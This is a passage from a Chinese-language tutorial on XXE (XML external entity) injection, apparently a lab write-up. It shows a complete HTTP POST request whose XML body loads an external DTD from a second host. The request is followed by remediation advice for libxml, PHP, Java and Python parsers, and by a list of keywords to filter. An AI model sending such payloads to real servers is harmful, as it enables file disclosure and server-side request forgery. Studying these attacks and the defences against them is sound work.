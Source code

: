 
将 payload 写入请求数据包，修改 `Content-Type` 类型为 xml

```http
POST /login HTTP/1.1
Host: 192.168.1.25
Content-Length: 25
Cache-Control: max-age=0
Origin: http://192.168.1.25
DNT: 1
Upgrade-Insecure-Requests: 1
Content-Type: text/xml
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.1.25/login
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

<?xml version="1.0"?>
<!DOCTYPE e1 SYSTEM "http://192.168.1.24/xxe.dtd">
<hello>&e1;</hello>
```

> `Content-Type: text/xml` 用于声明这是一个 xml 文件

## 7 漏洞修复

**升级 libxml 版本**

libxml 2.9.0 以后，默认不解析外部实体

> 有的使用高版本的目标可能需要这个功能，也可能存在这个漏洞

**代码层防御**

PHP：

```
libxml_disable_entity_loader(true);
```

JAVA:

```
DocumentBuilderFactory dbf =DocumentBuilderFactory.newInstance();
dbf.setExpandEntityReferences(false);
```

Python：

```
from lxml import etree
xmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))
```

>过滤用户提交的 XML 数据
>关键词：<!DOCTYPE 和<!ENTITY，或者，SYSTEM 和 PUBLIC。
